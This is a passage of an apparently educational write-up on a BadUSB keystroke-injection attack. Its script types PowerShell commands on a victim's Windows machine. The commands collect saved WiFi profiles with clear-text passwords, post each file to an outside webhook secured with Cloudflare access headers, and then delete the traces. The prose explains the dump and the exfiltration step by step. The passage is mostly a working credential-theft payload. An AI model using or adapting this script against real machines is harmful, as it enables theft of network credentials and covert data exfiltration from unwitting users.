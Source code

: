```BadUSBscript
 STRING 'CF-Access-Client-Id' = '<value>' (Cloudflare Client ID from earlier)
 ENTER
 STRING 'CF-Access-Client-Secret' = '<value>' (Cloudflare Client Secret from earlier)
 ENTER
 STRING 'Content-Type' = 'application/json'}
 ENTER
 STRING Get-ChildItem "$env:tmp/$guid" -File |
 ENTER
 STRING ForEach-Object {
 ENTER
 STRING $fileContent = Get-Content $_.FullName | Out-String
 ENTER
 STRING $Body = @{
 ENTER
 STRING 'text' = '```xml'  + "`n" + $fileContent + '```'
 ENTER
 STRING }
 ENTER
 STRING Invoke-RestMethod -Uri $webhookUri -Method 'post' -Headers $headers -Body (ConvertTo-Json -InputObject $Body)
 ENTER
 STRING Start-Sleep -Milliseconds 300
 STRING }
 ENTER
 STRING Remove-Item -Path "$env:tmp/$guid" -Force -Recurse
 ENTER
 STRING exit
 ENTER
```

For those unfamiliar with bad USB scripts, a quick legend below:
- REM - used for commenting in script
- GUI - is the windows key
- DELAY - Time before entering next command
- STRING - keyboard strokes to type
- ENTER = Enter key on keyboard
> Additional documentation for Bad USB/ducky syntax can be found on Hak5's website[^3]

With this script we run Powershell, set a variable to the webhook endpoint we previously created, and create a unique
location to dump credentials to via Powershell's GUID functions. The string representation of the GUID is stored in a 
variable for later use.

After this, we create a directory in `$env:temp` with the name being the GUID we just created, and change directories to
this new location. We then politely ask the OS to dump all of its saved WiFi connection profiles with clear-text PSKs to
this location as `.xml` files, which it obliges to without batting an eye.

We then move up one directory, to `$env:temp` and begin constructing the required HTTP headers for our impending exfil.


[^1]: https://developers.mattermost.com/integrate/webhooks/incoming/
[^2]: https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/
[^3]: https://docs.hak5.org/hak5-usb-rubber-ducky/